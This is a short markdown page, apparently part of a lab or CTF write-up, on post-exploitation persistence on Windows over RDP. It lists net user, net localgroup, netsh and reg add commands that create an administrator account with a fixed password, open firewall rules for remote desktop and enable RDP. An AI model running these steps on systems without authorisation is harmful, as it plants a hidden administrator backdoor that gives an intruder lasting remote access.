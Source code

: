 ## Post Exploitation

### Gaining persistence via RDP

We add a user using net user utility.&#x20;

```
net user FValkyrie_17 Test@1234 /add
net localgroup administrators FValkyrie_17 /add
net localgroup "Remote Desktop Users" FValkyrie_17 /add
```

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption><p>Creating a new user with privileged access</p></figcaption></figure>

In case you forget setting a password like I did you can set it as follows:

```
net user FValkyrie_17 Test@1234
```

Disable firewall rules using:

```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

And enable RDP using:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption><p>Enabling RDP</p></figcaption></figure>
